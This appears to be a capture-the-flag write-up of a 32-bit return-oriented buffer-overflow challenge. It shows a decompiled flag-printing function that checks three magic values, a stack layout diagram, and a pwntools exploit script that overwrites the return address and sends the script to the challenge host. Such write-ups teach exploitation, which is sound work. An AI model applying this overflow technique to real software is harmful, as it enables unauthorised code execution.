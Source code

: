This is a fairly standard ROP challenge. Since we're in 32-bit, some things are a bit easier. Also note that there is a function that will print the flag for us if we give it the right arguments.

```c
void all_I_do_is_win(uint param_1, uint param_2, uint param_3)
{
  char flagbuf [0x28];
  FILE *flag;

  if (param_1 == 0x600dc0de) {
    if (param_2 == 0xacce5515) {
      if (param_3 == 0xfea51b1e) {
        flag = fopen("flag.txt","r");
        if (flag == (FILE *)0x0) {
          puts("If you\'re seeing this, the flag file is missing. Please let an admin know!");
          exit(0);
        }
        fgets(flagbuf, 0x28, flag);
        puts(flagbuf);
        exit(0);
      }
      puts("So close!");
    }
    else {
      puts("You\'re getting there...");
    }
  }
  else {
    puts("Not quite.");
  }
  return;
}
```

Here's the stack layout and all the code:

```
buf     AAAA
        AAAA
        AAAA
        ...
return  all_I_do_is_win
return  AAAA
arg     0x600dc0de
arg     0xacce5515
arg     0xfea51b1e
```



```python
from pwn import *

exe = ELF("./actually_not_guessy")
r = remote("pwn.red.csaw.io", 5007)

r.sendline(b"A"*44 + p32(exe.sym["all_I_do_is_win"]) + b"AAAA" + p32(0x600dc0de) + p32(0xacce5515) + p32(0xfea51b1e))

r.interactive()
```
